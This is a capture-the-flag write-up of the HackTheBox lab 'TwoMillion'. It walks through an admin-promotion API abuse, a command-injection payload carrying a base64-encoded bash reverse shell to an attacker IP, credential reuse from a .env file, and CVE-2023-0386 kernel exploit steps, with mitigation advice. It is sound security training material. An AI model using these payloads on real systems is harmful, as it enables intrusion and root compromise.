






# TwoMillion - HackTheBox Writeup

**Date:** 18.03.2026  
**OS:** Linux  
**IP Address:** 10.129.229.66  
**Difficulty:** Easy  
**Points:** 0  

---

# 1. Executive Summary

This writeup documents the exploitation process for the HackTheBox machine **TwoMillion**. 

*   **Initial Access:** Access was gained by deobfuscating a client-side JavaScript file to generate an invite code, registering an account, and then abusing an insecure API endpoint to promote the user to administrator. Once admin, a command injection vulnerability in the VPN generation endpoint was used to gain a reverse shell.
*   **Privilege Escalation:** Local privilege escalation was achieved in two steps. First, database credentials found in a `.env` file were reused to SSH into the machine as the `admin` user. Then, the root shell was obtained by exploiting **CVE-2023-0386**, a vulnerability in the Linux kernel's OverlayFS subsystem.
*   **Key Learning Points:** 
    * Importance of deobfuscating client-side code during reconnaissance.
    * Proper security controls on API endpoints.
    * Sanitizing user input to prevent command injection.
    * Keeping the Linux kernel updated.

---

# 2. Reconnaissance & Enumeration

## 2.1. Nmap Scan

| Port | Service | Version | Notes |
| :--- | :--- | :--- | :--- |
| 22 | SSH | OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 | Standard SSH service. |
| 80 | HTTP | nginx | HTB clone website. |

**Nmap Command:**
```bash
nmap -sC -sV -oN nmap/initial 10.129.229.66
```

## 2.2. Web Enumeration

Visiting the website shows a clone of the old HackTheBox interface.



The "Join" page requires an invite code.

### Invite Code Generation
Checking the source code and network tab revealed an obfuscated JavaScript file named `__inviteapi.min.js`.




**Deobfuscated JS:**
```js
function verifyInviteCode(code) {
    var formData = {"code": code};
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) { console.log(response) },
        error: function(response) { console.log(response) }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) { console.log(response) },
        error: function(response) { console.log(response) }
    })
}
```

Calling `/api/v1/invite/how/to/generate` via POST returned ROT13 encoded data.



**Decoded message:** `In order to generate the invite code, make a POST request to /api/v1/invite/generate`.

Requesting `/api/v1/invite/generate` via POST returned a Base64 encoded code: `NDE3VzEtOEcySDctSFQ3NDMtNDBUR1c=`.
Decoded: `417W1-8G2H7-HT743-40TGW`.

---

# 3. Initial Access (User Flag)

## 3.1. Vulnerability Analysis

### 1. Broken Administrative Access Control
*   **Vulnerability:** The API endpoint `/api/v1/admin/settings/update` failed to verify if the requesting user was already an administrator before processing the update. This is a classic example of **Insecure Direct Object Reference (IDOR)** or **Broken Function Level Authorization (BFLA)**.
*   **Vector:** A `PUT` request with JSON data: `{"email": "user@htb.com", "is_admin": 1}`.
*   **Technical Detail:** The backend likely processed the JSON keys directly into a database update query without filtering restricted fields like `is_admin`.
*   **Prevention:**
    *   **Server-side Validation:** Always verify the user's current role/permissions on the server before allowing access to administrative functions.
    *   **Field Filtering:** Use a restricted list of allow-listed fields that can be updated by regular users. Never allow users to update their own role or permission flags.

### 2. OS Command Injection
*   **Vulnerability:** The `username` parameter in the `/api/v1/admin/vpn/generate` endpoint was passed directly to a system shell command without sanitization.
*   **Vector:** `{"username": "test; <command> ;"}`.
*   **Technical Detail:** The application likely executed a command like `system("generate_vpn.sh " . $username)`. By adding a semicolon (`;`), the attacker could terminate the intended command and start a new one.
*   **Prevention:**
    *   **Avoid Shell Execution:** Use built-in language APIs for file operations or system tasks instead of calling shell scripts.
    *   **Input Sanitization:** If shell calls are unavoidable, use a strict allow-list (e.g., only alphanumeric characters) and escape all user input.
    *   **Use Safe APIs:** Use functions like `execv()` that take arguments as a list rather than a single string, preventing shell meta-character interpretation.

## 3.2. Exploitation Path

### Admin Promotion
After logging in with the newly created account, the API route list was discovered at `/api/v1`.



Using Burp Suite, the `is_admin` value was checked and found to be `0`.


The user was promoted to administrator by sending a `PUT` request to `/api/v1/admin/settings/update`.



```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
--cookie "PHPSESSID=9jtnfebs5vcqfk2j0d2of2e339" \
--header "Content-Type: application/json" \
--data '{"email":"admin1@test.com", "is_admin": 1}'
```

### Command Injection & Reverse Shell
With administrative access, the `/api/v1/admin/vpn/generate` endpoint was used to execute commands via the `username` parameter.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
--cookie "PHPSESSID=9jtnfebs5vcqfk2j0d2of2e339" \
--header "Content-Type: application/json" \
--data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS42Ny80NDQ0IDA+JjEK | base64 -d | bash;"}'
```

A listener on the attacker machine received the reverse shell.

---

# 4. Privilege Escalation (Root Flag)

## 4.1. Local Enumeration
A `.env` file was found in the web root `/var/www/html`:
```text
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
This password was reused to login as the `admin` user via SSH.

**User Flag:** `31f793c18a1aef25e9dc13fa1c0b315c`

## 4.2. Exploitation Path (Root)
The system was running Linux kernel `5.15.70`, which is vulnerable to **CVE-2023-0386**.

### CVE-2023-0386: OverlayFS Privilege Escalation
This is a high-severity local privilege escalation vulnerability in the Linux kernel's OverlayFS subsystem (affecting versions 5.11 through 6.2).

#### 1. Technical Mechanism (The "Copy-Up" Flaw)
OverlayFS is a union filesystem that "merges" multiple directories (layers) into a single view. 
*   **Lower Layer:** Usually read-only.
*   **Upper Layer:** Writable.
*   **Copy-Up:** When a file in the lower layer is modified, the kernel "copies it up" to the upper layer to allow writes.

The vulnerability stems from how the kernel handles files with the **setuid** bit during this `copy_up` operation:
1.  **FUSE Smuggling:** An attacker creates a **FUSE** (Filesystem in Userspace) filesystem. Internal to FUSE, they create a binary owned by root with the `setuid` bit set. 
2.  **The Bypass:** FUSE mounts are typically `nosuid` (security feature that ignores setuid bits), so the binary is harmless within the FUSE mount.
3.  **OverlayFS Trigger:** The attacker mounts OverlayFS using the FUSE directory as the `lower` layer. 
4.  **Improper Mapping:** When the attacker triggers a `copy_up` (e.g., by touching the file), the kernel copies the binary from the `lower` (FUSE) layer to the `upper` layer (real filesystem). 
5.  **The Bug:** The kernel fails to properly verify if the UID/GID of the file is mapped in the current user namespace. It copies the file *along with its root ownership and setuid bit* to the host's real filesystem, which is NOT mounted with `nosuid`.
6.  **Root Execution:** The attacker now has a root-owned setuid binary on the real filesystem and can execute it to gain immediate root privileges.

#### 2. Replication Steps
Based on the [puckiestyle exploit](https://github.com/puckiestyle/CVE-2023-0386), replication involves:
1.  **Preparation:** Clone the repo and compile the components:
    *   `fuse.c`: Creates the malicious FUSE filesystem.
    *   `getshell.c`: The binary that will be granted setuid root.
    *   `exp.c`: The main exploit coordinator.
2.  **Execution:**
    > [!IMPORTANT]
    > The exploit requires two separate terminal sessions.
    *   **Terminal 1:** Run `./fuse ./ovlcap/lower ./gc`. This mounts the FUSE layer and prepares the `gc` (getshell) binary.
    *   **Terminal 2:** Run `./exp`. This triggers the OverlayFS mount and the `copy_up` operation.
    *   Executing the resulting binary in the OverlayFS view grants a root shell.

#### 3. Prevention & Mitigation
*   **System Patching:** The most effective mitigation is updating the Linux kernel to a version where the `copy_up` logic correctly handles UID mappings (fixed in kernel 6.2-rc6 and backported to LTS).
*   **Restricting User Namespaces:** The exploit requires the ability to create new user namespaces to mount OverlayFS. Administrators can restrict this:
    ```bash
    sudo sysctl -w kernel.unprivileged_userns_clone=0
    ```
*   **Mount Options:** Ensure that partitions where user data is stored are mounted with `nosuid` where possible.

---

# 5. Credentials & Loot

| Username | Password / Hash / Flag | Source |
| :--- | :--- | :--- |
| admin | SuperDuperPass123 | .env file |
| htb_prod | admin / SuperDuperPass123 | .env file |
| user.txt | 31f793c18a1aef25e9dc13fa1c0b315c | /home/admin/user.txt |
| root.txt | 145e78aa14012e344f08bf95dc24decd | /root/root.txt |

---

# 6. Recommendations & Mitigation

## 6.1. Immediate Fixes
1.  **Vulnerability: API Access Control:** Implement server-side check to ensure only authenticated admins can access `/api/v1/admin/*` routes. Disable the ability for users to update the `is_admin` field.
2.  **Vulnerability: Command Injection:** Rewrite the VPN generation logic to avoid shell calls. Use a secure library to generate VPN configs.
3.  **Vulnerability: Kernel Exploit:** Run `sudo apt update && sudo apt upgrade` to update the kernel to a patched version.

## 6.2. General Security Hardening
1.  **Password Policy:** enforce complex passwords and prevent password reuse across different services (SSH, Database, Web App).
2.  **Principle of Least Privilege:** Run the web server (`www-data`) with the minimum necessary permissions. Ensure sensitive files like `.env` are only readable by the required service account.
3.  **Secrets Management:** Avoid storing clear-text credentials in environmental files. Use a dedicated secrets management solution (e.g., HashiCorp Vault).
4.  **Security Audits:** Regularly perform automated and manual security scans to identify common web vulnerabilities (OWASP Top 10) and outdated software.
